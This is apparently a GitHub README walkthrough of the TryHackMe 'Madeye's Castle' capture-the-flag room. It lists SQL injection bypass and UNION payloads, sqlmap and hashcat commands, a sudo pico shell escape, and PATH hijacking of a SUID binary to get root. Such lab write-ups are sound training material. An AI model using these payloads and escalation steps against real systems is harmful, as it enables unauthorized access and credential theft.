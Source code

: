 # Madeye's Castle CTF - TryHackMe Room
# **!! SPOILERS !!**
#### This repository documents my walkthrough for the **Madeye's Castle** CTF challenge on [TryHackMe](https://tryhackme.com/room/madeyescastle). 
---

we see 4 open ports 22, 80 , 139 and 445 

![scn](imgs/scn.png "scn")

first looking at port 80, we see hidden comment suggesting `hogwartz-castle.thm` adding to /etc/hosts

![cm](imgs/cm.png "cm")

on the page we see login page

![log](imgs/log.png "log")

we can use this payload to get SQLi 

```
admin' or 1=1 -- -
```

we got note 

![sql1](imgs/log.png "log")

```
The password for Lucas Washington is incorrect! contact administrator. Congrats on SQL injection... keep digging
```

after using enum4linux we found a samba share: sambashare

![sm](imgs/sm.png "sm")

we found 2 files `.notes.txt` and `spellnames.txt`

![sm2](imgs/sm2.png "sm2")

![f](imgs/f.png "f")

going back to login we can use sqlmap to further test for sqli 

```
sqlmap -u 'http://hogwartz-castle.thm/login' --random-agent --method POST --data 'user=test&password=pass' -p user --dump --level=5 --risk=3
```

![mp](imgs/mp.png "mp")

we know about SQLite dbms, we can also add --tables to command to find table `users`

![mp2](imgs/mp2.png "mp2")

we can test with unions

![b1](imgs/b1.png "b1")

we can use this payload to find the names of columns in table users (name, password, admin, notes )

```
user=' UNION SELECT sql, NULL, NULL,null FROM sqlite_master WHERE type='table' AND name='users'-- -&password=TEST
```

![b2](imgs/b2.png "b2")

by using this command we can dump whole column 

```
user=' UNION SELECT 1, 2, 2,group_concat(name) FROM users -- -&password=TEST
```

![b3](imgs/b3.png "b3")

if we dump notes column we see a comment: `My linux username is my first name, and password uses best64`

![b4](imgs/b4.png "b4")

now after extracting names and passwords we can use hashcat with the rule best64

```
hashcat -a 0 -m 1700 hash.txt spellnames.txt -r /usr/share/hashcat/rules/best64.rule 
```

we found password for harry 

![hc](imgs/hc.png "hc")

we got access as harry and got user flag

![u1](imgs/u1.png "u1")

by looking at sudo -l output we can use this command to gain shell as hermonine

![sudol](imgs/sudol.png "sudol")

```
sudo -u hermonine /usr/bin/pico
```

![gtfo](imgs/gtfo.png "gtfo")

inside the editor we use: 

```
Ctrl + R
Ctrl + X
reset; sh 1>&0 2>&0
```

![pic](imgs/pic.png "pic")

we gained the shell and flag

![u2](imgs/u2.png "u2")

we found SUID file `/srv/time-turner/swagger`, it is some number guessing game

![suid](imgs/suid.png "suid")

![sc](imgs/sc.png "sc")

i created the private key and added do hermonine authorized keys to log via ssh to gain stable access

after analysing the file we see that file uses uname and uses function rand()

![strings](imgs/strings.png "strings")

![gh](imgs/gh.png "gh")

![gh2](imgs/gh2.png "gh2")

if we use this command we see that the "random" number is exactly the same in all cases, the rand() function is not safe

```
for i in {1..5};do echo 1 | /srv/time-turner/swagger ; done
```

![test](imgs/test.png "test")

we can create our own version of uname command containing reverse shell 

```
$ cd /tmp
$ nano uname
$ chmod 777 uname
$ export PATH=/tmp:$PATH
```

![un](imgs/un.png "un")

then we can run this command

```
echo 0 | /srv/time-turner/swagger | awk '{print $5}' | tail -1 | /srv/time-turner/swagger
```

The command works by first running the swagger program with input 0, capturing its output, extracting the fifth word (which is the randomly generated number), and then running swagger again—this time feeding it the extracted number as input to correctly guess the random value.

![ex](imgs/ex.png "ex")

now we have root access and root flag

![root](imgs/root.png "root")

# MACHINE PWNED
